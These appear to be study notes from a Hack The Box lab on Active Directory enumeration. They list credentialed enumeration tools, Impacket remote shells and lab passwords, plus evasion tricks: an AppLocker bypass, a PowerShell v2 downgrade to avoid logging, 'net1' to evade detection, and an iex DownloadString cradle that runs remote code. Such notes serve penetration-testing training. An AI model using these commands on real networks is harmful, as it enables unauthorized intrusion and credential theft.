

# Deeper Down the Rabbit Hole

* `PS C:\\htb> Get-MpComputerStatus`→ check the status of windows defender
*   Applocker is Microsoft’s application whitelisting solution. Using Applocker, organization blocks cmd.exe, powershell.exe etc.

    we can bypass this, lets say `Powershell.exe` is blocked, then we use powershell’s other executable locations such as;

    `%SystemRoot%\\SysWOW64\\WindowsPowerShell\\v1.0\\powershell.exe` or `PowerShell_ISE.exe`.
* `PS C:\\htb> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections`

## **LAPS** `Local Administrator Password Solution`

* is used to randomize and rotate local administrator passwords on windows hosts and prevent lateral movement.

| **Command**                                   | **Description**                                                                                                                                                                              |
| --------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-MpComputerStatus`                        | PowerShell cmd-let used to check the status of `Windows Defender Anti-Virus` from a Windows-based host.                                                                                      |
| \`Get-AppLockerPolicy -Effective              | select -ExpandProperty RuleCollections\`                                                                                                                                                     |
| `$ExecutionContext.SessionState.LanguageMode` | PowerShell script used to discover the `PowerShell Language Mode` being used on a Windows-based host. Performed from a Windows-based host.                                                   |
| `Find-LAPSDelegatedGroups`                    | A `LAPSToolkit` function that discovers `LAPS Delegated Groups` from a Windows-based host.                                                                                                   |
| `Find-AdmPwdExtendedRights`                   | A `LAPSTookit` function that checks the rights on each computer with LAPS enabled for any groups with read access and users with `All Extended Rights`. Performed from a Windows-based host. |
| `Get-LAPSComputers`                           | A `LAPSToolkit` function that searches for computers that have LAPS enabled, discover password expiration and can discover randomized passwords. Performed from a Windows-based host.        |

## **Credentialed Enumeration - from Linux**

&#x20;1️⃣ **CrackMapExec**

*   `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users` → Domain user Enumeration

    Gives the list of users in domain with attribute `badPwdCount`
*   `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups` → Domain Group Enumeration

    gives us list of groups with number of users in each.
* `sudo crackmapexec smb 172.16.5.130 -u forend -p Klmcargo2 --loggedon-users` → lists what users are logged in currently.
* `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares` → enumerate available shares on the remote host and the level of access our user account has to each share
*   `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus`

    This will dig through each readable share on the host and list all readable file, we can also give specific share to spider e.g. `--share 'Department Shares'`

    output is located at `/tmp/cme_spider_plus/<ip of host>`

2️⃣ **SMBMap**

* `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5` → this will tell us what our user can access and their permission levels.
*   `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R 'Department Shares' --dir-only`

    it will show you the output of all subdirectories within the higher-level directories.

    `--dir-only` provided only the output of all directories and did not list all files.

&#x20;3️⃣ **rpcclient**

[rpcclient](https://www.samba.org/samba/docs/current/man-html/rpcclient.1.html) is a handy tool created for use with the Samba protocol and to provide extra functionality via MS-RPC. It can enumerate, add, change, and even remove objects from AD.

* `rpcclient -U "" -N 172.16.5.5` → gives us null session shell on our DC using ms-rpc
*   `rpcclient **$**> queryuser 0x457` → user enumeration by RID, here hex 0x457 equals to decimal 111

    This will give info about user having RID 0x457 or decimal 111
* `rpcclient$> enumdomusers` → this will list all users along with their RID.

&#x20;4️⃣ **Impacket Toolkit**

[Psexec.py](http://psexec.py)

The tool creates a remote service by uploading a randomly-named executable to the `ADMIN$` share on the target host. It then registers the service via `RPC` and the `Windows Service Control Manager`. Once established, communication happens over a named pipe, providing an interactive remote shell as `SYSTEM` on the victim host.

* `psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125` → gives us shell

[**wmiexec.py**](http://wmiexec.py)

[Wmiexec.py](http://wmiexec.py) utilizes a semi-interactive shell where commands are executed through [Windows Management Instrumentation](https://docs.microsoft.com/en-us/windows/win32/wmisdk/wmi-start-page). It does not drop any files or executables on the target host and generates fewer logs than other modules.

* `wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5` → gives us shell

&#x20;5️⃣ **Windapsearch**

[Windapsearch](https://github.com/ropnop/windapsearch) is another handy Python script we can use to enumerate users, groups, and computers from a Windows domain by utilizing LDAP queries.

*   `python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 --da` → gives users from domain admin group

    `--da` = enumerate domain admins group members
*   `python3 windapsearch.py --dc-ip 172.16.5.5 -u forend@inlanefreight.local -p Klmcargo2 -PU` → check for users with elevated privileges

    `-PU` = find privileged users

&#x20;6️⃣ [**Bloodhound.py**](http://bloodhound.py)

It was initially only released with a PowerShell collector, so it had to be run from a Windows host. Eventually, a Python port (which requires Impacket, `ldap3`, and `dnspython`) was released by a community member. This helped immensely during penetration tests when we have valid domain credentials, but do not have rights to access a domain-joined Windows host or do not have a Windows attack host to run the SharpHound collector from. This also helps us not have to run the collector from a domain host, which could potentially be blocked or set off alerts (though even running it from our attack host will most likely set off alarms in well-protected environments).

*   `sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all` → executing [bloodhound.py](http://bloodhound.py)

    `-ns` = nameserver

    `-d` = domain

    `-c` = checks; all checks in this case.

we will get various json file

* `zip -r ilfreight_bh.zip *.json` → zip up the json file.

## **Credentialed Enumeration - from Windows**

&#x20;1️⃣ **ActiveDirectory PowerShell Module**

* `Get-Module` → list all available modules
* `Import-Module ActiveDirectory` → import ActiveDirectory module if not imported.
* `Get-ADDomain` → Get basic info about the domain.
* `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName`→ lists account that are susceptible to a Kerberoasting attack.
* `Get-ADTrust -Filter *` → checking for trust relationships
* `Get-ADGroup -Filter * | select name` → Group Enumeration
* `Get-ADGroup -Identity "Backup Operators"` → Detailed Group Enumeration
* `Get-ADGroupMember -Identity "Backup Operators"` → List Group Membership

2️⃣ **PowerView**

[PowerView](https://github.com/PowerShellMafia/PowerSploit/tree/master/Recon) is a tool written in PowerShell to help us gain situational awareness within an AD environment

| **Command**                         | **Description**                                                                            |
| ----------------------------------- | ------------------------------------------------------------------------------------------ |
| `Export-PowerViewCSV`               | Append results to a CSV file                                                               |
| `ConvertTo-SID`                     | Convert a User or group name to its SID value                                              |
| `Get-DomainSPNTicket`               | Requests the Kerberos ticket for a specified Service Principal Name (SPN) account          |
| **Domain/LDAP Functions:**          |                                                                                            |
| `Get-Domain`                        | Will return the AD object for the current (or specified) domain                            |
| `Get-DomainController`              | Return a list of the Domain Controllers for the specified domain                           |
| `Get-DomainUser`                    | Will return all users or specific user objects in AD                                       |
| `Get-DomainComputer`                | Will return all computers or specific computer objects in AD                               |
| `Get-DomainGroup`                   | Will return all groups or specific group objects in AD                                     |
| `Get-DomainOU`                      | Search for all or specific OU objects in AD                                                |
| `Find-InterestingDomainAcl`         | Finds object ACLs in the domain with modification rights set to non-built in objects       |
| `Get-DomainGroupMember`             | Will return the members of a specific domain group                                         |
| `Get-DomainFileServer`              | Returns a list of servers likely functioning as file servers                               |
| `Get-DomainDFSShare`                | Returns a list of all distributed file systems for the current (or specified) domain       |
| **GPO Functions:**                  |                                                                                            |
| `Get-DomainGPO`                     | Will return all GPOs or specific GPO objects in AD                                         |
| `Get-DomainPolicy`                  | Returns the default domain policy or the domain controller policy for the current domain   |
| **Computer Enumeration Functions:** |                                                                                            |
| `Get-NetLocalGroup`                 | Enumerates local groups on the local or a remote machine                                   |
| `Get-NetLocalGroupMember`           | Enumerates members of a specific local group                                               |
| `Get-NetShare`                      | Returns open shares on the local (or a remote) machine                                     |
| `Get-NetSession`                    | Will return session information for the local (or a remote) machine                        |
| `Test-AdminAccess`                  | Tests if the current user has administrative access to the local (or a remote) machine     |
| **Threaded 'Meta'-Functions:**      |                                                                                            |
| `Find-DomainUserLocation`           | Finds machines where specific users are logged in                                          |
| `Find-DomainShare`                  | Finds reachable shares on domain machines                                                  |
| `Find-InterestingDomainShareFile`   | Searches for files matching specific criteria on readable shares in the domain             |
| `Find-LocalAdminAccess`             | Find machines on the local domain where the current user has local administrator access    |
| **Domain Trust Functions:**         |                                                                                            |
| `Get-DomainTrust`                   | Returns domain trusts for the current domain or a specified domain                         |
| `Get-ForestTrust`                   | Returns all forest trusts for the current forest or a specified forest                     |
| `Get-DomainForeignUser`             | Enumerates users who are in groups outside of the user's domain                            |
| `Get-DomainForeignGroupMember`      | Enumerates groups with users outside of the group's domain and returns each foreign member |
| `Get-DomainTrustMapping`            | Will enumerate all trusts for the current domain and any others seen.                      |

&#x20;3️⃣ **SharpView**

Another tool worth experimenting with is SharpView, a .NET port of PowerView. Many of the same functions supported by PowerView can be used with SharpView

* `PS C:\\htb> .\\SharpView.exe Get-DomainUser -Identity forend` → get info about specific user

&#x20;4️⃣ **Snaffler**

[Snaffler](https://github.com/SnaffCon/Snaffler) is a tool that can help us acquire credentials or other sensitive data in an Active Directory environment

* `Snaffler.exe -s -d inlanefreight.local -o snaffler.log -v data`

&#x20;5️⃣ **BloodHound ⭐**

* `PS C:\\htb> .\\SharpHound.exe -c All --zipfilename ILFREIGHT` → running sharphound collector from MS01 attack host

Then transfer the data to our attacking host and open in bloodhound.

## Living Off the Land

[https://lolbas-project.github.io/](https://lolbas-project.github.io/)

#### **Basic Enumeration Commands**

| Command                                               | Result                                                                                     |
| ----------------------------------------------------- | ------------------------------------------------------------------------------------------ |
| hostname                                              | Prints the PC's Name                                                                       |
| \[System.Environment]::OSVersion.Version              | Prints out the OS version and revision level                                               |
| wmic qfe get Caption,Description,HotFixID,InstalledOn | Prints the patches and hotfixes applied to the host                                        |
| ipconfig /all                                         | Prints out network adapter state and configurations                                        |
| set                                                   | Displays a list of environment variables for the current session (ran from CMD-prompt)     |
| echo %USERDOMAIN%                                     | Displays the domain name to which the host belongs (ran from CMD-prompt)                   |
| echo %logonserver%                                    | Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt) |

systeminfo → will print a summary of the hosts information for us in one tidy output

| **Cmd-Let**                                                                                                                | **Description**                                                                                                                                                                                                                               |
| -------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-Module`                                                                                                               | Lists available modules loaded for use.                                                                                                                                                                                                       |
| `Get-ExecutionPolicy -List`                                                                                                | Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about\_execution\_policies?view=powershell-7.2) settings for each scope on a host.                                       |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                                                | This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| `Get-Content C:\\Users\\<USERNAME>\\AppData\\Roaming\\Microsoft\\Windows\\Powershell\\PSReadline\\ConsoleHost_history.txt` | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                       |
| \`Get-ChildItem Env:                                                                                                       | ft Key,Value\`                                                                                                                                                                                                                                |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` | This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                        |

#### **Downgrade Powershell**

If not uninstalled, there can be older version of powershell. Powershell event logging was introduces as a feature with powershell 3.0 and forward.

If we can call Powershell version 2.0 or older, our action will not be logged into Event Viewer.

* `Get-host` → displays the version of current powershell
* `powershell.exe -version 2` → running version 2 of powershell.

&#x20;1️⃣ **Checking Defenses**

* `PS C:\\htb> netsh advfirewall show allprofiles` → Firewall checks
* `C:\\htb> sc query windefend` → windows defender from cmd
* `PS C:\\htb> Get-MpComputerStatus` → check the status and configuration settings

\<aside> 2️⃣ **Am I Alone?**

\</aside>

* `PS C:\\htb> qwinsta` → display info about remote desktop services.

| **Networking Commands**        | **Description**                                                                                                  |
| ------------------------------ | ---------------------------------------------------------------------------------------------------------------- |
| `arp -a`                       | Lists all known hosts stored in the arp table.                                                                   |
| `ipconfig /all`                | Prints out adapter settings for the host. We can figure out the network segment from here.                       |
| `route print`                  | Displays the routing table (IPv4 & IPv6) identifying known networks and layer three routes shared with the host. |
| `netsh advfirewall show state` | Displays the status of the host's firewall. We can determine if it is active and filtering traffic.              |

\<aside> 3️⃣ **Windows Management Instrumentation (WMI)**

\</aside>

[Windows Management Instrumentation (WMI)](https://docs.microsoft.com/en-us/windows/win32/wmisdk/about-wmi) is a scripting engine that is widely used within Windows enterprise environments to retrieve information and run administrative tasks on local and remote hosts. For our usage, we will create a WMI report on domain users, groups, processes, and other information from our host and other domain hosts.

#### **Quick WMI checks**

| **Command**                                                                          | **Description**                                                                                        |
| ------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------ |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn`                              | Prints the patch level and description of the Hotfixes applied                                         |
| `wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List` | Displays basic host information to include any attributes within the list                              |
| `wmic process list /format:list`                                                     | A listing of all processes on host                                                                     |
| `wmic ntdomain list /format:list`                                                    | Displays information about the Domain and Domain Controllers                                           |
| `wmic useraccount list /format:list`                                                 | Displays information about all local accounts and any domain accounts that have logged into the device |
| `wmic group list /format:list`                                                       | Information about all local groups                                                                     |
| `wmic sysaccount list /format:list`                                                  | Dumps information about any system accounts that are being used as service accounts.                   |

\<aside> 4️⃣ **Net Commands**

\</aside>

[Net](https://docs.microsoft.com/en-us/windows/win32/winsock/net-exe-2) commands can be beneficial to us when attempting to enumerate information from the domain. These commands can be used to query the local host and remote hosts, much like the capabilities provided by WMI. We can list information such as:

* Local and domain users
* Groups
* Hosts
* Specific users in groups
* Domain Controllers
* Password requirements

#### **Table of Useful Net Commands**

| **Command**                                     | **Description**                                                                                                              |
| ----------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------- |
| `net accounts`                                  | Information about password requirements                                                                                      |
| `net accounts /domain`                          | Password and lockout policy                                                                                                  |
| `net group /domain`                             | Information about domain groups                                                                                              |
| `net group "Domain Admins" /domain`             | List users with domain admin privileges                                                                                      |
| `net group "domain computers" /domain`          | List of PCs connected to the domain                                                                                          |
| `net group "Domain Controllers" /domain`        | List PC accounts of domains controllers                                                                                      |
| `net group <domain_group_name> /domain`         | User that belongs to the group                                                                                               |
| `net groups /domain`                            | List of domain groups                                                                                                        |
| `net localgroup`                                | All available groups                                                                                                         |
| `net localgroup administrators /domain`         | List users that belong to the administrators group inside the domain (the group `Domain Admins` is included here by default) |
| `net localgroup Administrators`                 | Information about a group (admins)                                                                                           |
| `net localgroup administrators [username] /add` | Add user to administrators                                                                                                   |
| `net share`                                     | Check current shares                                                                                                         |
| `net user <ACCOUNT_NAME> /domain`               | Get information about a user within the domain                                                                               |
| `net user /domain`                              | List all users of the domain                                                                                                 |
| `net user %username%`                           | Information about the current user                                                                                           |
| `net use x: \\computer\\share`                  | Mount the share locally                                                                                                      |
| `net view`                                      | Get a list of computers                                                                                                      |
| `net view /all /domain[:domainname]`            | Shares on the domains                                                                                                        |
| `net view \\computer /ALL`                      | List shares of a computer                                                                                                    |
| `net view /domain`                              | List of PCs of the domain                                                                                                    |

#### **Net Commands Trick**

If you believe the network defenders are actively logging/looking for any commands out of the normal, you can try this workaround to using net commands. Typing `net1` instead of `net` will execute the same functions without the potential trigger from the net string.

&#x20;5️⃣ **Dsquery**

[Dsquery](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc732952\(v=ws.11\)) is a helpful command-line tool that can be utilized to find Active Directory objects. The queries we run with this tool can be easily replicated with tools like BloodHound and PowerView, but we may not always have those tools at our disposal, as discussed at the beginning of the section.

We need to have elevated privileges on host or ability to run an instance of Cmd prompt or PowerShell from a SYSTEM context.

* `dsquery user` → list users
* `dsquery computer` → computer search
* `dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"` → wildcard search to view all objects in an OU
* `PS C:\\Users\\forend.INLANEFREIGHT> dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName` → search for all domain controllers in current domain limiting to five result. strings such as `userAccountControl:1.2.840.113556.1.4.803:=8192`. are LDAP queries that can be used with several different tools too, including AD powershell, ldapsearch etc

`userAccountControl:1.2.840.113556.1.4.803:` → specifies that we are lookin at the UAC attributes for an object

`=8192` ⇒ represents the decimal bitmask we want to match in this search. This decimal number corresponds to a corresponding UAC Attribute flag that determines if an attribute like `password is   not required` or `account is locked` is set.

UAC Values

<figure><figcaption></figcaption></figure>

QUESTION

Utilizing techniques learned in this section, find the flag hidden in the description field of a disabled account with administrative privileges. Submit the flag as the answer.

*   `dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=2)(|(memberOf=CN=Administrators,CN=Builtin,DC=INLANEFREIGHT,DC=LOCAL)(memberOf=CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL)(memberOf=CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL)))" -attr sAMAccountName -limit 0`

    Gives the list of users having administrative privileges and disabled account
*   `dsquery * -filter "(&(objectCategory=person)(objectClass=user)(sAMAccountName=username))" -attr description`

    This will show the content of description of the given user.
